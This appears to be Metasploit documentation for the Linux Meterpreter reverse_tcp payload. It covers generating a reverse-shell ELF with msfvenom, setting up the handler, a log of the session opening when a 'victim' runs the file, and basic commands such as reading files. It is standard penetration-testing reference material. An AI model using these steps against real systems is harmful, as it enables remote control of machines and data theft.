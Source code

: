 **As a standalone executable**

To use linux/x86/meterpreter/reverse_tcp as an executable, first you can generate it with msfvenom:

```
./msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f elf -o /tmp/payload.bin
```

Before sending the exectauble to the victim machine, you need to set up the handler on your end:

1. Start msfconsole
2. Do: ```use exploit/multi/handler```
3. Do: ```set PAYLOAD linux/x86/meterpreter/reverse_tcp```
4. Do: ```set LHOST [Your IP]```
5. Do: ```run```

And that should start the listener. When the victim runs the malicious exectauble, you should
receive a session:

```
msf exploit(handler) > run

[*] Started reverse TCP handler on 172.16.23.1:4444 
[*] Starting the payload handler...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 172.16.23.182
[*] Meterpreter session 1 opened (172.16.23.1:4444 -> 172.16.23.182:45009) at 2016-07-06 22:40:35 -0500

meterpreter > 
```


## Important Basic Commands

Here is a list of some of the common commands you might need while using the Linux Meterpreter:

**pwd**

The ```pwd``` command tells you the current working directory. For example:

```
meterpreter > pwd
/home/sinn3r/Desktop
```

**cd**

The cd command allows you to change directories. Example:

```
meterpreter > cd /tmp
```

**cat**

The cat command allows you to see the content of a file:

```
meterpreter > cat /tmp/data.txt
hello world
```

